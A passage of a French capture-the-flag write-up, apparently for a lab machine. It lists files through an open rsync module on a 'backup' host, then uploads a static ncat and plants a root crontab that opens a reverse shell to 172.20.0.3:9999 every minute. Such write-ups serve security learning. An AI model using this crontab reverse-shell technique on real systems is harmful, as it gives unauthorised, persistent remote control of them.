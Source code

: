 ```plain
42189/tcp filtered unknown
MAC Address: 02:42:AC:14:00:02 (Unknown)
```

Via rsync on peut donc lire les fichiers présents sur le système mais on n'y trouve rien d'intéressant (le flag *root.txt* n'est pas présent).  

```plain
$ rsync rsync://backup:873/
src             src path

$ rsync rsync://backup:873/src/
drwxr-xr-x          4,096 2018/07/15 17:42:39 .
-rwxr-xr-x              0 2018/05/04 21:01:30 .dockerenv
-rwxr-xr-x            100 2018/05/04 19:55:07 docker-entrypoint.sh
drwxr-xr-x          4,096 2018/07/15 17:42:41 backup
drwxr-xr-x          4,096 2018/07/15 17:42:39 bin
drwxr-xr-x          4,096 2018/07/15 17:42:38 boot
drwxr-xr-x          4,096 2018/07/15 17:42:39 data
drwxr-xr-x          3,720 2019/01/18 15:38:43 dev
drwxr-xr-x          4,096 2018/07/15 17:42:39 etc
drwxr-xr-x          4,096 2018/07/15 17:42:38 home
drwxr-xr-x          4,096 2018/07/15 17:42:39 lib
drwxr-xr-x          4,096 2018/07/15 17:42:38 lib64
drwxr-xr-x          4,096 2018/07/15 17:42:38 media
drwxr-xr-x          4,096 2018/07/15 17:42:38 mnt
drwxr-xr-x          4,096 2018/07/15 17:42:38 opt
dr-xr-xr-x              0 2019/01/18 15:38:43 proc
drwxr-xr-x          4,096 2018/07/15 17:42:39 rdb
drwx------          4,096 2018/07/15 17:42:38 root
drwxr-xr-x          4,096 2019/01/18 15:38:45 run
drwxr-xr-x          4,096 2018/07/15 17:42:38 sbin
drwxr-xr-x          4,096 2018/07/15 17:42:38 srv
dr-xr-xr-x              0 2019/01/18 16:00:43 sys
drwxrwxrwt          4,096 2019/01/18 16:34:01 tmp
drwxr-xr-x          4,096 2018/07/15 17:42:39 usr
drwxr-xr-x          4,096 2018/07/15 17:42:39 var

$ rsync rsync://backup:873/src/var/spool/cron/crontabs/
drwx-wx--T          4,096 2018/07/15 17:42:39 .
```

Le rsync nous permet aussi de déposer des fichiers sur la machine *backup* par conséquent notre plan d'attaque consiste à uploader d'abord un *ncat* statique et ensuite ajouter une crontab qui nous envoie un reverse shell.  

Voici les commandes que j'ai tapé :  

```bash
echo "*/1 * * * * touch /tmp/yolo & /bin/ncat -e /bin/sh 172.20.0.3 9999" > root
chown root.crontab root
chmod 600 root
rsync -a ncat rsync://backup:873/src/bin/
rsync -a root rsync://backup:873/src/var/spool/cron/crontabs/
```
